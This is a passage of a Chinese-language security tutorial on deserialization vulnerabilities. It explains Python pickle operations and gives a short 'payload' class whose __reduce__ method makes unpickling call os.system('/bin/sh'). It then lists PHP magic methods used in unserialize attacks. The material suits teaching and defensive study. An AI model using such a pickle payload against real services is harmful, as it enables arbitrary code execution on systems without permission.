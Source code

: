 `pickle`有如下四种操作方法：

```
dump	对象序列化到文件对象并存入文件
dumps	对象序列化为 bytes 对象
load	对象反序列化并从文件中读取数据
loads	从 bytes 对象反序列化
```

实例：

```python
import pickle
class Demo():
	def init(self, name='h3rmesk1t'):
		self.name = name

print(pickle.dumps(Demo()))
# 序列化输出为b'\x80\x04\x95/\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x94\x8c\x04Demo\x94\x93\x94)\x81\x94}\x94\x8c\x04name\x94\x8c\th3rmesk1t\x94sb.'
print(pickle.loads(pickle.dumps(Demo())).name)
# 反序列化输出为 h3rmesk1t
```

**python反序列化漏洞原理：**

python反序列化后产生的对象会在结束时触发`__reduce__()`函数从而触发恶意代码。类似于PHP中的`__wakeup()`方法。

payload:

```python
import os
import pickle

class Demo(object):
    def __reduce__(self):
        shell = '/bin/sh'
        return (os.system,(shell,))

demo = Demo()
pickle.loads(pickle.dumps(demo))   # 反序列化创建对象时调用__reduce__，执行恶意代码
```

## 魔术方法

序列化或反序列化的过程中会**自动调用**一些魔术方法。

**php 中 magic函数命名是以符号“__”开头的**

```php
__construct：当一个对象创建时调用（constructor）

__destruct：当一个对象被销毁时调用（destructor）

__invoke()：当把一个类当作函数使用时自动调用

__toString：当一个对象被当作一个字符串处理时自动调用

__sleep：在使用serialize()函数时，程序会检查类中是否存在一个__sleep()魔术方法。如果存在，则该方法会先被调用，然后再执行序列化操作。

__wakeup：在使用unserialize()时，会检查是否存在一个__wakeup()魔术方法。如果存在，则该方法会先被调用，预先准备对象需要的资源。

__call()：在对象中调用一个不存在或者不可访问方法时，__call会被调用。

__set()：给不可访问属性赋值时，__set会被调用。

__isset()：对不可访问属性调用isset()或empty()时，__isset()会被调用。

__unset()：对不可访问属性调用unset()时，__unset()会被调用。
```